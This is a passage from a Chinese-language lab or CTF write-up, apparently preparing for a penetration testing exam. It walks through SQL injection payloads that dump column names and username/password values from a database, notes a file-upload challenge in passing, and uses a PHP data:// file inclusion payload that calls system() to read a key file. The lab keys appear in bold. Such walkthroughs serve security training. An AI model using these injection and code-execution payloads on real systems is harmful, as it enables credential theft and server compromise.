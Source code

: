 ![image-20221226165801390](F:/Typora_pic/pte/image-20221226165801390.png)

article,article1,users1

表名出来了，继续注字段

```
s',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users1'),'login'); -#- -
```

![image-20221226170201313](F:/Typora_pic/pte/image-20221226170201313.png)

username,password

表的字段出来了，直接查询这个表的内容

```
1',(SeLEct group_concat(password,username) from 2web.users1 limit 1),'login');-#- -
```

![image-20221226170241956](F:/Typora_pic/pte/image-20221226170241956.png)

**key1:u9y8tr4n**

## 2、http://10.11.0.168:82

依旧是文件上传

![image-20221224114127103](F:/Typora_pic/pte/image-20221224114127103.png)

和前面是一样的，不解释

**key2:adahhsh8**

## 3、http://10.11.0.168:83

这题是文件包含

直接看url，page传了一个文件

http://10.11.0.168:83/start/index.php?page=hello

![image-20221224114408685](F:/Typora_pic/pte/image-20221224114408685.png)

但是显示出来却新出现了txt，随便换个关键词试一下

![image-20221224114517447](F:/Typora_pic/pte/image-20221224114517447.png)

还是有，直接伪协议试一下

![image-20221224114620731](F:/Typora_pic/pte/image-20221224114620731.png)

phpinfo直接出来了，找key

```php+HTML
data:text/plain, <?php system('cat ../key.php');?>
```
